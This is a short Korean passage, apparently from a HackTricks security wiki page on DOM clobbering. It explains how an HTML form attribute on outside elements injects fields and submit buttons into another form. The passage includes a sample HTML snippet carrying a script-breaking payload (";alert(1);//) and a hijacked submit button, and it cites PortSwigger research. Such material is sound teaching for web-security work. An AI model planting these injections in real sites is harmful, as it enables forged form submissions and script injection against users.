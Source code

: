 **양식 안에 새로운 항목을 추가하는 것이 가능합니다** 단지 **일부 태그 안에 `form` 속성을 지정함으로써**. 이를 사용하여 **양식 안에 새로운 값을 추가하고** 심지어 **전송할 새로운 버튼을 추가할 수 있습니다** (클릭재킹 또는 일부 `.click()` JS 코드를 악용하여):
```html
<!--Add a new attribute and a new button to send-->
<textarea form="id-other-form" name="info">
";alert(1);//
</textarea>
<button form="id-other-form" type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
- 더 많은 폼 속성은 [**버튼 확인하기**](https://www.w3schools.com/tags/tag_button.asp)**.**

## 참고문헌

- [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
- [https://portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- Heyes, Gareth. 해커를 위한 JavaScript: 해커처럼 생각하는 법 배우기.

{{#include ../../banners/hacktricks-training.md}}

